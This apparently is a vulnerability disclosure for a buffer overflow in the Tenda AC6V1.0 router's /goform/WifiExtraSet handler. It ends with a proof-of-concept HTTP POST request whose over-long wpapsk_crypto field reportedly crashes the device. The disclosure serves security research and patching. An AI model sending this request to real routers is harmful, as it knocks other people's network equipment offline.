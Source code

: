 # Tenda AC6V1.0 V15.03.05.19 was discovered to contain a buffer overflow via the wpapsk_crypto parameter in the fromSetWirelessRepeat function.

## Description

`Tenda`  Router **AC6V1.0 V15.03.05.19** was discovered to contain a buffer overflow in the `httpd` module when handling `/goform/WifiExtraSet` request.

## Firmware information

* Manufacturer's address: https://www.tenda.com.cn/

* Firmware download address : https://www.tenda.com.cn/download/detail-2681.html

## Affected version

![](images/01.png)

## Vulnerability details

This vulnerability lies in the `/goform/WifiExtraSet` page，The details are shown below:

![image-20221119202100670](images/02.png)

## POC

This POC can result in a Dos.

```
POST /goform/WifiExtraSet HTTP/1.1
Host: 192.168.204.133
Content-Length: 247
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.204.133
Referer: http://192.168.204.133/parental_control.html?random=0.7058891673130268&
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: password=iqb1qw; bLanguage=cn
Connection: close

wifi_chkHz=1&wl_mode=wisp&wl_enbale=1&country_code=CN&wpsEn=0&guestEn=0&iptvEn=0&wifiTimerEn=1&smartSaveEn=1&dmzEn=1&handset=0&ssid=fcniux&wpapsk_key=11111111&security=wpapsk&wpapsk_type=wpa&wpapsk_crypto=aaaaaaaaaaaaaaaaaaaaaaaaaaaa&mac=undifined
```

![image-20221118151225120](images/03.png)